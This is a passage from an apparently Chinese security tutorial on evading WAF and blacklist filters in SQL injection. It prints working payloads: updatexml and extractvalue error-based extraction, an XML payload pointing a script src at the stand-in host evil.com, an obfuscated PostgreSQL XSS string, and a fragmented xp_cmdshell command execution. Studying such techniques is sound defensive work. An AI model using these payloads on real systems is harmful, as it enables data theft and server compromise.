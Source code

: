 上述这几个示例用于说明有时候当某个函数不能使用时还可以找到其他的函数替代其实现至于select、uinon、where等关键字被限制如何处理将在后面filter部分讨论

#### 2.符号

and和or有可能不能使用可以试下&amp;&amp;和||能不能用还有=不能使用的情况可以考虑尝试&lt;、&gt;因为如果不小于又不大于那便是等于了

再看一下用得很多的空格可以使用如下符号代替其使用
<pre class="highlight">%20 %09 %0a %0b %0c %0d %a0 /**/ 
</pre>

#### 3.生僻函数

MySQL/PostgreSQL支持XML函数
<pre class="highlight">Select UpdateXML('&lt;script x=_&gt;&lt;/script&gt; ','/script/@x/','src=//evil.com');
?id=1 and 1=(updatexml(1,concat(0x3a,(select user())),1))
SELECT xmlelement(name img,xmlattributes(1as src,'a\l\x65rt(1)'as \117n\x65rror));　//postgresql
?id=1 and extractvalue(1, concat(0x5c, (select table_name from information_schema.tables limit 1)));
</pre>
MySQL、PostgreSQL、Oracle它们都有许多自己的函数基于黑名单的filter要想涵盖这么多东西从实际上来说不太可能而且代价太大因此黑名单的确是更适合处理已知的情况

### f) 特殊符号

这里我把非字母数字的字符都规在了特殊符号一类这些符号有特殊的含义和用法涉及信息量比前面提到的几种都要多

先看下drops上[waf的绕过技巧](http://drops.wooyun.org/tips/132)<a>一文使用的几个例子</a>

&nbsp;
<pre class="highlight">1.使用反引号`，例如select `version()`，可以用来过空格和正则，特殊情况下还可以将其做注释符用
2.神奇的"-+."，select+id-1+1.from users; “+”是用于字符串连接的，”-”和”.”在此也用于连接，可以逃过空格和关键字过滤
3.@符号，select@^1.from users; @用于变量定义如@var_name，一个@表示用户定义，@@表示系统变量
4.Mysql function() as xxx  也可不用as和空格　　 select-count(id)test from users;  //绕过空格限制
</pre>
可见使用这些字符的确是能做很多事也证实了那句老话只有想不到没有做不到

笔者搜罗了部分可能发挥大作用的字符(这里未包括'、*、/等在内考虑到前面已经出现较多次了)
<pre class="highlight">`、~、!、@、%、()、[]、.、-、+ 、|、%00
</pre>
举例

关键字拆分
<pre class="highlight">'se'+'lec'+'t'
%S%E%L%E%C%T 1
1.aspx?id=1;EXEC('ma'+'ster..x'+'p_cm'+'dsh'+'ell "net user"')
</pre>
!和()' or --+2=- -!!!'2
<pre class="highlight">id=1+(UnI)(oN)+(SeL)(EcT)
</pre>
//有看到说Access中,”[]”用于表和列,”()”用于数值也可以做分隔

本节最后再给出一些和这些字符多少有点关系的操作符供参考
<pre class="highlight">&gt; &gt; , &lt;&lt;, &gt;=, &lt;=, &lt;&gt;,&lt;=&gt;,XOR, DIV, SOUNDS LIKE, RLIKE, REGEXP, IS, NOT, BETWEEN
</pre>
使用这些"特殊符号"实现绕过是一件很细微的事情一方面各数据库对符号的处理是不尽相同的另一方面你得充分了解这些符号的特性和使用方法才能会考虑利用其实现绕过
